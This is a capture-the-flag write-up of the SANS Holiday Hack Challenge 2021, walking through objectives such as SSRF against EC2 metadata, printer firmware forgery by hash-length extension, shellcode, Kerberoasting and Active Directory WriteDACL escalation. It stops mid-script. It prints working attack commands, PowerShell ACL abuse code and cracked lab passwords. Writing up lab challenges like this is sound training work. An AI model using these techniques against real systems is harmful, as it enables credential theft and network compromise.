SANS Holiday Hack Challenge 2021

Overview
This document is a writeup of SANS holiday challenge 2021. This document has answers of all the objectives (total 13), high-level approach as well as details on how those answers were derived.
| Objective completed | The story |
|---|---|
 |
Listen children to a story that was written in the cold 'Bout a ringle and his castle hosting hackers, meek and bold Then from somewhere came another, built his tower tall and proud Surely, he, our Frosty villain hides intentions 'neath a shroud So begins Jack's reckless mission: gather trolls to win a war Build a con that's fresh and shiny, has his yet been done before? Is his Fest more feint than folly? Some have noticed subtle clues Running 'round and raiding repos, stealing Santa's Don'ts and Do's Misdirected, scheming, grasping, Frost intends to seize the day Funding research with a gift shop, can Frost build the better sleigh? Lo, we find unlikely allies: trolls within Jack's own command Doubting Frost and searching motive, questioning his dark demand Is our Jack just lost and rotten - one more outlaw stomping toes? Why then must we piece together cludgy, wacky radios? With this object from the heavens, Frost must know his cover's blown Hearkening from distant planet! We the heroes should have known Go ahead and hack your neighbor, go ahead and phish a friend Do it in the name of holidays, you can justify it at year's end There won't be any retweets praising you, come disclosure day But on the snowy evening after? Still Kris Kringle rides the sleigh |
Answer to objectives and High-level approach
| Objectives | Answers | High level approach |
|---|---|---|
| 1.Kringlecon Orientation | answer | Write “answer” in the top pane of the terminal presented by the elf Jingle Ringford. |
| 2.Where in the world is Carmel Santaigo? | Solved in the game | OWASP Sensitive data exposure : (In the flask cookie) Get the hints about the elf and their route info by decoding the flask cookie and use it in the game to follow and find the elf. |
| 3.Thaw Frost Tower's entrance | Solved in the game | API Abuse : Use the API http://nidus-setup:8080/api/cooler to increase the temperature of the thermostat to thaw the frozen entrance. |
| 4.Slot machine Investigation | I'm going to have some bouncer trolls bounce you right out of this casino! | API Abuse: Manipulate the “numline” parameter sent to https://slots.jackfrosttower.com/ to increase the bet amount an exceed 1000 coins and reveal the answer. |
| 5.Strange USB Device | ickymcgoop | USB Rubber Ducky : Use mallard.py to decode the encoded USB ducky script (/mnt/USBDEVICE/inject.bin). In the decoded value, find another reversed base64 value, reverse it and decode to find the user for whom an authorized_key file is getting created with the public cert. |
| 6.Shellcode Primer | cyber security knowledge | Shell code : On Step 11) '/var/northpolesecrets.txt' 1. Call sys_open to open the file 2. Call sys_read to read the file using buffer (mov rsi, rsp) 3. Call sys_write to write contents from rsp to stdout (Keep the count high e.g., 1000 so we can account for all contents in the file) |
| 7.Printer Exploitation | Troll_Pay_Chart.xlsx | Hash Length extender attack : 1.Download the firmware, decode the firmware field from base64 to extract the zip file. 2.Craft the payload to copy the name of last printed xlsx file to a new file and copy the file to /incoming folder. 3.Use hash extender to append our payload zip to original zip file using hash and base64 encode the output. Create the JSON firmware from it. 4. Upload the new JSON firmware to the portal. 5. Download the file from /incoming folder which will have the name of the last printed .xlsx file. |
| 8.Kerberoasting on an Open Fire | Kindness | Kerberoasting and WriteDACL abuse : 1.Get the two shared folders in the network using our user: elfu_svc_shr and research_dep 2.Kerberoasting attack to get TGS (Ticket granting service) hash for elfu_svc. 3.Use Hashcat to crack TGS hash for elfu_svc user. 4.Get hard coded creds for remote_elf embedded in PowerShell script which is stored in \elfu_svc_shr share. 5.PrivEsc – Use WriteDACL to add our low priv. user to AD group “Research Department”. 6.Access the secret document “SantaSecretToAWonderfulHolidaySeason.pdf” in the \reserach_dep to find the answer. |
| 9.Splunk | whiz | Splunk queries on Sysmon and Github audit data (Described in the relevant section below) |
| 10.Now Hiring | CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX | Server-Side Request Forgery (SSRF) on EC2 hosted website: 1.Website has URL as an input in the “URL to your NLBI report” field. 2.Send http://169.254.169.254/latest/meta-data/iam/security-credentials/ in the URL and see the name of IAM role (“jf-deploy-role”) attached to the EC2 instance returned in the response of the GET request of an image. 3.Send http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role in the URL input and get the secret access key returned in the response of the GET request of an image. |
| 11.Customer Complaint Analysis | Flud Hagg Yaqh | Packet Analysis using Wireshark for RFC 3514 compliance: 1. From .pcap file, find the room number for the guest who is RFC 3514 non-compliant using ip.flags.rb == 02.From the .pcap file, find the trolls who are compliant (ip.flags.rb == 1) and complaining about the guest in the room number found in 1) |
| 12. Frost Tower Website Checkup | Clerk | OWASP broken auth and SQL Injection attacks: 1.Examine the source code 2.Broken auth: Exploit the /postcontact endpoint to log in and get access to the dashboard. 3.SQL Injection: Exploit the /detail endpoint to get additional table name (“todo”) and its column names. 4.Get data from table “todo” table having the job position for Santa. |
| 13. FPGA Programming | TBD | TBD |
1. Kringlecon Orientation
Upon login on https://2021.kringlecon.com, we see Jingle Ringford guarding the entry asking below
First things first, here's your badge! It's that wrapped present in the middle of your avatar.
Click on the badge on your avatar üéÅ.
That’s where you will see your Objectives, Hints, and gathered Items for the Holiday Hack Challenge.
We’ve also got handy links to the KringleCon talks and more there for you!
Next, click on that USB wifi adapter - just in case you need it later.

 |
We pick up the Wi-Fi adapter.
We click on the terminal to access it and then type “answer” in the upper pane of the terminal and the gate is opened.
 |
 |
2. Where in the world is Carmel Santaigo
|  |
Hints from Tangle Coalbox Turns out some elves have gone on some misdirected journeys around the globe. It seems that someone is messing with their travel plans. We could sure use your open-source intelligence (OSINT) skills to find them. Why dontcha' log into this vintage Cranberry Pi terminal and see if you have what it takes to track them around the globe. If you're having any trouble with it, you might ask Piney Sappington right over there for tips. |
Tangle Coalbox indicates another elf named “Piney Sappington” may have some hints on how to solve this objective.
So, we head over to that elf now who is also present in the courtyard.
|  |
Hints from Piney Sappington You see, I've been looking at these documents, and I know someone has tampered with one file. Do you think you could log into this Cranberry Pi and take a look? It has exiftool installed on it, if that helps you at all. I just... Well, I have a feeling that someone at that other conference might have fiddled with things. And, if you help me figure this tampering issue out, I’ll give you some hints about OSINT, especially associated with geographic locations! |
In the terminal we are presented with the below problem:
HELP! That wily jack Frost Modified one of our naughty/nice records, and right before Christmas! Can you help us which one? We’ve installed exiftool for your convenience!
We will get the Last Modified By attribute value for all the docx files and then grep the output it with “Jack”.
That should give us all the files which were last modified by Jack Frost.
We have -C 5 in the grep so we can get the lines around the matches for the context.
Command entry and output :
Answer verification :

Achivement Unlocked :

Hint Unlocked :

The “flask cookies” hint is actually a Github Gist from Mr. Chris Elgee.
https://gist.github.com/chriselgee/b9f1861dd9b99a8c1ed30066b25ff80b
That above gist shows how one can decode the value in a cookie generated by Flask applications.
Going back to objective #2 we start the game.

In the browser we open developer tools.
Under developer tools > Application tab there is a cookie named "Cookiepella" for the domain used for the challenge (caramel.kringlecastle.com).
We follow the instructions to decode the value in the flask cookie to JSON.
cookie = "<value of the cookiepella cookie>"
import zlib; import itsdangerous
zlib.decompress(itsdangerous.base64_decode(cookie))

We format the output JSON for better understanding.
The JSON has details about the elf to identify them.
The JSON has also has the route the elf took. We can take the same route to catch the elf.

On the visit interlink page, we supply data we have in the decoded flask cookie and click on "Filter Elves".

The elves have been filtered out based on the data and possibly Its Morcel Nougat and their location was "Santa's Castel"
Both of these datapoints are also in the decoded cookie value.
Note the route taken by the elf in the decoded cookie value:
Stuttgart, Germany > Tokyo, Japan > London, England > PlaceHolder
We click on "Depart by sleigh" to follow the same route to catch up with the elf in London, England.
| In London, England, we notice there is no option to "Depart by Sleigh" which indicates we are close to the elf. We click on Investigate. |
We are presented with 3 investigate options. |

|
 |
When we click on "Investigate 1", It says we have caught up to the elf.
We are given the option to guess the elf.
We choose "Morcel Nouget" since Its also in the name of the elf in the decoded cookie.
Upon selecting the elf and clicking on the “Guess Elf”
The message "You've won" appears which means we have completed the challenge.

3. Thaw Frost Tower Entrance
|
Challenge : Turn up the heat to defrost the entrance to Frost Tower. Click on the Items tab in your badge to find a link to the Wifi Dongle's CLI interface. Talk to Greasy Gopherguts outside the tower for tips |
||
|
Difficulty Level : |
Location : Frost Tower Entrance |
Elf/Troll :  Grimy McTrollkins Grimy McTrollkins |

|
Hints from Grimy McTrollkins Yo, I'm Grimy McTrollkins. I'm a troll and I work for the big guy over there: Jack Frost. I’d rather not be bothered talking with you, but I’m kind of in a bind and need your help. Jack Frost is so obsessed with icy cold that he accidentally froze shut the door to Frost Tower! I wonder if you can help me get back in. I think we can melt the door open if we can just get access to the thermostat inside the building. That thermostat uses Wi-Fi. And I’ll bet you picked up a Wi-Fi adapter for your badge when you got to the North Pole. Click on your badge and go to the Items tab. There, you should see your Wi-Fi Dongle and a button to “Open Wi-Fi CLI.” That’ll give you command-line interface access to your badge’s wireless capabilities. |
Click on the badge and go to the Items tab. There, we see the Wi-Fi Dongle and a button to “Open Wi-Fi CLI.”
That gives us command-line interface access to wireless capabilities.

|
|
Scan for any available the ESSIDs
iwlist wlan0 scanning

We find an ESSID named “FROST-Nidus-Setup”.
Now we connect to “FROST-Nidus-Setup” ESSID.
iwconfig wlan0 essid FROST-Nidus-Setup

Connection succecssful to the ESSID.
Issue a curl command to http://nidus-setup:8080.
curl http://nidus-setup:8080

Looks like few APIs are hosted there.
Access the API docs
Note the /api/cooler does not need registration
curl http://nidus-setup:8080/apidoc

Following the documentation, we make use of /cooler endpoint passing a temperature which may melt ice e.g., 110 degrees
curl -XPOST -H 'Content-Type: application/json' \
--data-binary '{"temperature": 110}' \
http://nidus-setup:8080/api/cooler

The jack frost tower entrance is now open and the objective is now completed.

|

4. Slot Machine Investigation
|
Challenge : Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help. |
||
|
Difficulty Level : |
Location : Frost Tower Lobby |
Elf/Troll : Hubris Selfington |
|  |
Hints from Hubris Selfington The big boss told me he’s worried about vulnerabilities in his slot machines, especially this one. Statistically speaking, it seems to be paying out way too much. He asked me to see if there are any security flaws in it. The boss has HUGE plans and we’ve gotta make sure we are running a tight ship here at Frost Tower. Hint: The objective states “Submit the string in the server data. response element” |
Clicking on the slot machine behind the troll opens https://slots.jackfrosttower.com where we can click “Play game” to open the game.
|  |

|
We open Burp Suite and capture traffic for only slots.jackfrosttower.com.
Click "Spin" in the bottom right corner.

Burp intercepts the requests and shows a POST request to the /api/v1/
- betamount
- numline
- cpl

We investigate with repeater, sending 1001 to the betamount parameter and It does not work.

Keeping the betamount parameter as 1001 (because we need to bet with >1000 coins), we manipulate the other two parameters, numline and cpl, send them to the API to see if we are successful.
| Manipulating parameter values | Request | Response |
|---|---|---|
| Decrease cpl to 0.0 |

|
 |
| Increase cpl to 0.2 |

|
 |
| Decrease numline to 10 |

|
|
| Increase numline to 30 |

|
|
| Make numline a negative number |  |

|
Full request and response showing sending a negative value in the numline parameter would show a message in a new field named "response".

The successful response shown below :

data.response :
I'm going to have some bouncer trolls bounce you right out of this casino!
We submit the highlighted as the answer for the Slot Machine Investigation objective and its accepted!
5. Strange USB device
|
Challenge : Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice. |
||
|
Difficulty Level : |
Location : Santa’s talk floor |
Elf/Troll :  Morcel Nougat Morcel Nougat |

|
Hints from Morcel Nougat : Do you know anything about USB Rubber Duckies? I've been playing around with them a bit myself. Please see what you can do to help solve the Rubber Ducky Objective! Reference Talk by Kevin Tyers HIDden Duckey, Deconstructed Payload |
We open the terminal and presented with a question
Question: What is the troll username involved with this attack.

We see there is an inject.bin under /mnt/USBDEVICE

We do the file listing and we see a python file named “mallard.py”.
If we look at the contents of the file, we see the python script takes an "inject.bin" file as an input

We run the mallard.py with the inject.bin as input.
python ./mallard.py --file /mnt/USBDEVICE/inject.bin
The rubber ducky binary inject.bin is decoded. We see a few interesting things being done in the original file. Numbered in the screenshot below :
- There is a hardcoded base 64 string which looks like reversed ("==" in the front)
- The "rev" used to reverse the already reversed base64 string making it a proper base64 string.
- "base64" command with -d switch to decode the base64 string
So we take the above line from the source code and execute in the terminal
The base64 is reversed and decoded to reveal the user’s name.

In the above an authorized_key file is getting created with the public cert for the user ickymcgoop.
The answer is ickymcgoop
We submit that username as the answer.

The answer gets accepted and we complete this objective.

6. Shell Code Primer
|
Challenge : Complete the Shellcode Primer in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints. |
||
|
Difficulty Level : |
Location : Jack’s Office |
Elf/Troll : Ruby Cyster |
|
|
Hints from Ruby Cyster : I'm looking at this system, and it has me a little bit worried. If I didn't know better, I'd say someone here is learning how to hack North Pole systems. Who's got that kind of nerve! Anyway, I hear some elf on the other roof knows a bit about this type of thing. Note: The website is https://tracer.kringlecastle.com/ This objective has 11 steps. 1-10 are easy to follow tutorials which will be used for step 11. Step 11 has no hints and solving that would answer this objective. Therefore, in the interest of documentation for other objectives in the report we are doing to provide details on step 11 only. |
Shell Code for step 11. Reading a file (/var/northpolesecrets.txt)
;sys_open
call doit
db '/var/northpolesecrets.txt',0
doit:
mov rax, 2
pop rdi
mov rsi, 0
mov rdx, 0
syscall
; TODO: Call sys_read on the file handle and read it into rsp
;sys_read
;push rdi ; Temporarily store the filename pointer
;push rax ; Temporarily store the handle
;pop rdi ; Move the file handle into rdi
;pop rsi ;
mov rdi, rax ; sys_open returns the fd into rax, so move it to rdi before set rax to sys_read.
mov rax, 0 ; Syscall 0 = sys_read
mov rdx, 1000 ; rdx is the count
mov rsi,rsp; from the hint
syscall
; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rax, 1 ; Syscall 1 = sys_write
mov rdi, 1 ; File handle to write to = stdout = 1 ; (rsi is already the buffer)
mov rdx, 1000; rdx is the count again
mov rsi, rsp; from the hint
syscall ; Perform the sys_write syscall, writing the data to stdout
; sys_exit
mov rax, 3Ch ; for sys_exit
mov rdi, 0 ; exit code
syscall
The deugger
The full content of the file (/var/northpolesecrets.txt) is below.
Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community
The missing part in the question is "cyber security knowledge".
We submit it as the answer to this objective and Its now Its completed.

7. Printer Exploitation
|
Challenge : Investigate the stolen Kringle Castle printer. Get shell access to read the contents of /var/spool/printer.log. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective. |
||
|
Difficulty Level : |
Location : Jack’s Office |
Elf/Troll : Ruby Cyster |
Hints from Ruby Cyster (Because we solved the objective “Shellcode primer”) :
https://printer.kringlecastle.com/ |
|
Examination of firmware
Following the grinch's first hint, we go to https://printer.kringlecon.com > Firmware update > Download current firmware and download it. It’s basically a JSON file.
The element firmware has the firmware data in it.
Decode it and save the output to a file named firmware_hhc2021
We determine the file type and we see It’s a zip file so we rename the file to firmware_hhc2021.zip
Building our own payload
We build a bin file with above and name it firmware_ashish.bin.
This will copy the last entry of the xlsx file from /var/spool/printer.log and save in a new file named /app/lib/public/incoming/ashish.
#!/bin/bash
grep xlsx /var/spool/printer.log | tail -n1 > /app/lib/public/incoming/ashish
Provide execute permission on the firmware_ashish.bin
Zip firmware_ashish.bin to firmware_ashish.zip.
Extend the original firmware payload with our custom payload
We make use of hash extender.
Download the source and build it.
git clone https://github.com/iagox86/hash_extender
cd hash_extender
make
Now we havd the original firmware firmware_hhc2021.zip and custom firmware_ashish.zip. 
Now will need to append our payload firmware_ashish.zip to the original firmware_hhc2021.zip.
Following the readme on https://github.com/iagox86/hash_extender.
Below would be our inputs to the hash_extender.
| Hash Extender Switch | Spplied values and explaination |
|---|---|
| --file | firmware_hhc2021.zip The original payload from printer portal in zipped format |
| --append |
$(cat firmware.zip | xxd -p -c 99999) HEX representation of our payload in the zip file (firmware_ashish.zip) |
| --append-format |
hex (because we are appending a HEX value) |
| --secret |
16 (Present in the original JSON file we downloaded from the printer portal) |
| --format |
sha256 (Present in the original JSON file we downloaded from the printer portal) |
| --signature |
2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 (Present in the original JSON file we downloaded from the printer portal) |
| --out-data-format |
hex |
We fire up hash_extender with the above switch values :
./hash_extender --file=firmware_hhc2021.zip --secret=16
--signature ="2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97"
--append=$(cat firmware_ashish.zip | xxd -p -c 99999) --format sha256 --out-data-format=hex
This produced a new string and new signature.
The new string produced is in hex format (as we specified in the --out-data-format).
So, we need to use Cyberchef to convert the hex to base64.
This output from CyberChef has our appended paylod to get the file name.
Now we update the original firmware_export.json with the new payload and the new signature we got above.
Now we upload the new firmware-export.json back to the portal.
We browse the file https://printer.kringlecastle.com/incoming/ashish
File "ashish" is downloaded and we can see the xlsx file name in it.
We submit “Troll_Pay_Chart.xlsx” as the answer to this objective and it is accepted.
8. Kerberoasting on an Open Fire
|
Challenge : Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the ElfU Portal. Find Eve Snowshoes in Santa's office for hints. |
||
|
Difficulty Level : |
Location : Santa’s Office |
Elf/Troll : Eve Snowshoes |
|
Please note this objective was not near Eve Snowshoes but since they provided such cool hints, I wanted to keep this elf here. Hints from Eve Snowshoes : (Because we solved their terminal challenge “HoHo…No”)
https://register.elfu.org/register |
|
We first solve the HoHo..No terminal challenge from Eve Snowshoes.
HoHo..No Terminal Challenge
This terminal challenge needs us to identify the malicious IP addresses in the logs and add them to the naughty list so It could be blocked using fail2ban.
Thre is an excellent talk by Mr. Andy Smith on Fail2ban whicih immensely helped in solving this terminal challenge.
First find all the patterns of log entries in the/var/log/hohono.log
Exclude all the successful logins or valid heartbeats and put other in ashish.log.
cat /var/log/hohono.log | grep -v -e "success" -e "Valid heartbeat" > ashish.log
Replace all the IP addresses in ashish.log with naughty_ip
sed -i -e 's/[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}/naughty_ip/g' ashish.log
Get only the messages
cat ashish.log | cut -d ' ' -f3- | sort | uniq
Sample Unique log entries
Unique patterns of the log entries
Failed login from
for user
Invalid heartbeat '' from
Login fromrejected due to unknown user name
sent a malformed request
Now we can create the custom jail and then filter and actions for the custom jail.
Creating the custom jail
nano /etc/fail2ban/jail.d/my_jail.conf
Below would be the content of the my_jail.conf
[my_jail]
enabled = true
logpath = /var/log/hohono.log
findtime = 60m
maxretry = 10
bantime = 30m
filter = my_filter
action = my_action
Creating the custom filter
nano /etc/fail2ban/filter.d/my_filter.conf
Below would be the content of the my_filter.conf
[Definition]
failregex = <HOST> sent a malformed request$
Failed login from <HOST>
Login from <HOST> rejected due to unknown user name$
Invalid heartbeat \S+ from <HOST>$
Creating the custom action
nano /etc/fail2ban/filter.d/my_action.conf
Below would be the content of the my_action.conf
Please note this is where we add the IP addresses we have identified to get added to the naughtly list to ban using fail2ban.
[Definition]
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist add <ip>
Restart the fail2ban service
service fail2ban restart
Refresh the naughtylist
./naughtylist refresh
Achievement unlocked :

Now we go over to objective#8 Kerberoasting
Registration and SSH to elfu.local domain
We register on https://register.elfu.org/register using a custom domain.
We are provided a domain user named rflkkildwi and the password for it.
SSH to grades.elfu.local as rflkkildwi :
We see the below menu:
We escape the SSD using Ctrl+D.
Once in Python, use below to spawn an interactive bash shell.
import pty; pty.spawn("/bin/bash")
Conduct reconnaissance :
Username and Hostname :
Local IP :
Get the neighbours. There are 4 of them.
Conduct nmap scan on top 10 ports on each of those hosts to know what services are running there.
Looks like 172.17.0.4 and 172.17.0.5 are running SMB and may have shared folders.
| nmap -top-ports 10 172.17.0.4 | nmap -top-ports 10 172.17.0.5 |
|---|---|
We look for shared folders on 172.17.0.4 and 172.17.0.5
Looks like 172.17.0.5 has two shared folders but the user rfkkildwi does not have access on these shares
- \\172.17.0.5 \elfu_svc_shr
- \\172.17.0.5 \research_dep
Request TGS ticket for the users in Hashcat format. The ticket is encrypted with account’s password so it can be brute forced offline.
Cracking the TGS hash for elfu.local\elfu_svc to get plaintext password
Downloading the OneRuleToRuleThemAll.rule
We have the TGS hash for elfu_svc form previous step.
We copy the has to local kali machine as hash.txt.
We will download OneRuleToRuleThemAll.rule from here.
wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule > OneRuleToRuleThemAll.rule
Generate the word list
Generate the word list using CeWL with –with-number option so it does not ignore digits.
cewl --with-numbers https://register.elfu.org/register > wordlist.txt
Crack the TGS hash using Hashcat
Now we use the OneRuleToRuleThemAll.rule and wordlist.txt with Hashcat.
hashcat -m 13100 -a 0 hash.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist.txt
We have the plaintext password for elfu_svc.
Snow2021!

Enumerate the file share "elfu_svc_shr" and get hard coded creds for remote_elf in the script
smbclient \\\\172.17.0.5\\elfu_svc_shr -U=elfu_svc
Enter the password “Snow2021!” (Without quotes).
And now we are able to enumerate all the files.
Check for any hard coded passwords.
#Set the prompt Off
prompt OFF
#Download all the files
mget *
#Exit out of the smbclient
exit
#Grep for ConvertTo-SecureString in all the files since you use that on plain text creds to convert to # secure strings
grep -C 2 ConvertTo-SecureString *
Looks like GetProcessInfo.ps1 has the hard coded credentials for another domain user named elfu.local\remote_elfu for a host 10.128.1.53.
The credentials look encrypted though. So, we may to convert that to plain text.
Get the password for the elfu.local\remote_elf
Run this in the terminal PowerShell 7
$key = (2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7)
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key $key
ConvertFrom-SecureString -SecureString $aPass -AsPlainText
We have the password for elfu.local\remote_elf:
A1d655f7f5d98b10!
Logon To Domain controller (DC01) using elfu.local\remote_elf
At this point we have the password for elfu.local\remote_elf which is A1d655f7f5d98b10!.
But this user also does not have access to \172.17.0.5\research_dep.
So, we may need to escalate privileges of our user (rflkkildwi) and let's see if we can leverage elfu.local\remote_elf for that.
Let’s login to the host 10.128.1.53 using elfu.local\remote_elf.
First enter into PowerShell
pwsh
Get the PSCredential object using the secure string.
# Setting up the creds
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)

Using the creds above, create a new PowerShell session on 10.128.1.53
New-PSSession -Computer 10.128.1.53 -Credential $aCred
A new PowerShell session is created with id 1.
We enter the PowerShell session of 10.128.1.53 with name DC01 which looks like a domain controller when examining with Get-ADDomainController.
Enter-PSSession -Id 1
Get-ADDomainController -Discover -domain "elfu.local" -Service "PrimaryDC","TimeService"

Privilege Escalation
This involves escalating privileges of our user "rflkkildwi".
We do this by adding this user to "Research Department" AD group leveraging elfu.local\remote_elf.
Find which AD group the user elfu.local\remote_elf has writeDACL permission.
Tried with domain admins. This does not have writeDACL permission for remote_elf.
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
So, we numerate all the groups to see if something interesting come up.
Get-ADGroup to get all AD groups :
This “Research Department” group looks interesting :
We see all the Access rules for Research Department and we can see remote_elf has writeDACL permission on that group.
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
Using remote_elf, add "GenericAll" permission for the user "rflkkildwi" to the identified AD group.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "rflkkildwi"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
